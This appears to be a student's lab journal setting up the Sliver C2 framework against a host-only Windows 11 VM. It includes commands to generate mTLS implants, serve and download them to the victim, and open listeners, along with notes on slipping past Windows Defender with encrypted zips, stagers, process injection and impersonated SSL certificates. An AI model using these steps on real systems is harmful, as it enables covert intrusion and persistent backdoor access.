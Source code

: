 ## Our work assumes post-exploitation

### Notes for things I learned through the process:
- A C2 is only useful after an attacker has **already** compromised a target machine, and is able to traverse through the target to set up the implant for the C2 framework. This is because a C2 is only used to ensure future long-term access without needing to exploit the target each time.
- The implant must be running for the listener on the C2 server to connect to it.
- Windows Defender will detect implants and block them from running (this could be something to look at).
- Persistence: we need a way for the implant to keep running even after reboots or something else that causes it to stop.
- An implant that reconnects after reboots is essentially a backdoor. C2s relies on implants/backdoors but a backdoor does not necessarily involve a C2.
- Windows Defender is an AV, not a full EDR system.
- For Sliver, there are session implants and beacon implants. Session implants maintain a persistent connection, are ready to go, and are less stealthy. Beacon implants check in periodically, making them the stealthier option.
  
---

### Feb 14
I decided to use Windows 11 image for victim machine due to its wide usage in the world. Virtual machine so that it is in a controlled environment. I also changed the victim machine (w11vi) network settings to "Host-Only" by changing the Adapter to Host-Only Adapter. This is to keep the VM offline but open to C2 communication. I wanted to keep the VM offline because Caeland brought to my awareness that connecting the victim device to the internet opens it up to attacks from actual attackers and that may affect my host machine, which I didn't want. So by setting my victim's machine IP to 192.168.56.100 (192.168.56.x range since subnet mask is (255.255.255.0 (/24)) ) and its default gateway to 192.168.56.1 (my host IP), so that the host (C2 server) and victim can communicate.

---

### Setting up Sliver
1. Clone this repo: `git clone --recursive https://github.com/ChamberZ1/Sliver.git`
2. Build Sliver: `cd sliver && make`
   
---

### Feb 17
Testing out Sliver, I first ran the server: `sudo ./sliver-server`. I created an implant using `generate --mtls 192.168.56.1`, where:
- `--mtls` specifies to use Mutual TLS encryption for communication. From the Sliver documentation: "you must specify at least one C2 endpoint using `--mtls`, `--wg`, `--http`, or `--dns`." It is recommended to use `--mtls` or `--wg` where possible 
- Note: `192.168.56.1` is not my internet IP, but the IP of the VirtualBox Host-Only Adapter which acts as a gateway for the Linux (Host) machine and Windows (Victim) virtual machine to communicate.

The implant was saved to `/home/charlitos/sliver/`. I created an HTTP server using `python3 -m http.server 8080` to send the file to the Windows machine. I used `Invoke-WebRequest -Uri http://192.168.56.1:8080/implant_name.exe C:\Users\Public\any_name.exe` to receive the file on the Windows machine. However, Windows Defender was blocking it and so I temporarily disabled Windows Defender. Then, I ran the implant `any_name.exe` and went back to Sliver on the host device.

I set up a listener on Sliver using `mtls --lhost 192.168.56.1 --lport 443`. I used port 443 to try and blend in with normal internet traffic. 

I had to change some firewall permissions on my Linux device (specifically port 443 and 8080 from 192.168.56.100) to allow communication and file transfer between host and victim machine.

So it worked, I was able to execute commands on the victim machine, and open the shell to do more. I did receive a warning regarding "bad OPSEC" when I opened a shell. This basically means that what I did was easily detectable, so that's something I could look into.

Also, the implant works only as long as it is a running process. 

---

### Feb 28
My Objective now is to modify the implant in some way to get it onto the Windows machine without Defender noticing. If we can do that, we will then see if we can hit Defender with something to get it to let default implants to slip by.

So far, we are able to transfer the file onto Windows without Defender flagging it as long as it is zipped or using upx.

Modifying the implant: 
- I attempted to `echo "rndmdata123" >> implant.exe`, *insert reason and what this does*, this did not work.

### March 4
Updates:
I'm going through a bunch of websites and blogs to see how others are doing this. Plan is to use stagers
Installed Metasploit to get SSL cert and key to encrypt the communication between the stager and listener when it is retrieving the implant, so that AV doesn't detect it. 
I generate a certificate in PEM format using a module by Chris John Riley called impersonate_ssl that will generate one based on the information it gathers from the certificate of a website specified in the RHOST parameter of the module. This makes the cert look legitimate. In the example I follow, they use Google's SSL cert as the base for the fake cert. 
https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8
https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation
 
Notes:

$ generate beacon --mtls -e
Generate beacon implant, using --mtls, -e for including evasion techniques
GOT FLAGGED

Base64 Encoding:
$ base64 implant. exe > implant.b64
> certutil -decode implant.b64 implant.exe
GOT FLAGGED

Zip Files:
GOT FLAGGED

Encrypted Zip File:
DID NOT GET FLAGGED UPON EXTRACTION

FTP:
Chose not to proceed because it required modifying Firewall settings to allow File Transfer Program to run properly. (See FTP image.png in pictures).
"I would avoid modifying the Windows Firewall unless absolutely necessary. Any firewall rule changes could leave forensic traces, making detection more likely. Instead, I would use more covert methods to transfer and execute the implant."

---

Stagers and Process injection:
A stager is a small initial payload that retrieves a larger payload (a Sliver implant) from a remote C2 server. It acts as a first-stage loader that downloads and executes the actual malware. 

Process injection is a technique where malicious code is injected into a legitimate process (like explorer.exe or notepad.exe) so that the implant runs inside the trusted process instead of creating its own malicious-looking process.

Process injection itself won't bypass Windows Defender, but it makes detection harder. Whether Windows Defender catches the Sliver implant depends on how the stager and beacon are delivered and executed.

"Sliver implants provide some basic obfuscation but they are not designed for AV or EDR evasion." https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/

---

Executing in Memory:
This means running code without writing it to disk. Instead of saving a file like .exe to the system and then running (Disk-based execution), the code is loaded directly into memory (RAM) and executed from there. This is a common evasion technique.

Can be detected by Memory-based monitoring.

Often used with processing injection to evade detection.

### March 6
Continuing off from March 4 work:
Followed the darkoperator article for the most part. Hit some roadblocks due to different metasploit versions operating differently. For example, the example used `use exploit/multi/handler` and `set HANDLERSSLCERT <path to PEM file>`. However, my version did not have `HANDLERSSLCERT`. 

I did some research to learn about why this article is useful.
Reverse shells using HTTP or HTTPS can be detected easily when security tools inspect traffic. SSL is used to encrypt traffic between target machine and the attacker listener, making it harder for defense systems to inspect payloads. An SSL certificate ensures that only the intended endpoints have access to the traffic (attacker and victim). Impersonated certificates help cloak the traffic as legitimate traffic. However, security tools have improved over the years and this method is not as effective as it once was. 

Using mTLS authenticates both sides for better security. It sort of acts as an assurance for the attacker that it is communicating with the target and not some defense system.
